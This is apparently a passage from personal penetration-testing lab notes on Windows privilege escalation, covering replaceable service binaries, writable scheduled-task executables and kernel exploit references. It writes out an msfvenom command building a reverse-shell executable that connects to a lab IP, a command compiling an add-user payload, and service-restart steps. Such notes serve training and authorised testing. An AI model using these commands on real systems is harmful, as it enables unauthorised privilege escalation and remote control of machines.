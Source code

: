 compile on kali
```
x86_64-w64-mingw32-gcc adduser.c -o adduser.exe
```

or revers shell as the running service user
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.221 LPORT=9999 -f exe -o sys.exe
```

locate in the right path and restsrt the service
```
sc.exe stop <service name>
sc.exe start <service name>
```
#### Scheduled Tasks

- abusing the executable file
- abusing a dependency files 

schedules tasks that not create by system
```
Get-ScheduledTask | Where-Object { $_.TaskPath -notlike '\Microsoft*' -and $_.Principal.UserId -ne 'SYSTEM' }
```

check permissions on the exe
```
icacls "<exe_path>"
```

modify the exe and wait until the next run 
#### Using Exploits

- exploit _application-based_ vulnerabilities - installed applications on a Windows system may contain different types of vulnerabilities
- exploit vulnerabilities in the Windows Kernel
- exploit in running services
- search for cves: https://github.com/rasta-mouse/Watson, https://github.com/rasta-mouse/Sherlock

Local Privilege Escalation (MS11-046) - https://www.exploit-db.com/exploits/40564
smbghost - https://kashz.gitbook.io/common-exploits/windows-exploits/smbghost
windows server 2008 standard 6001 privilege escalation: https://www.exploit-db.com/exploits/40564
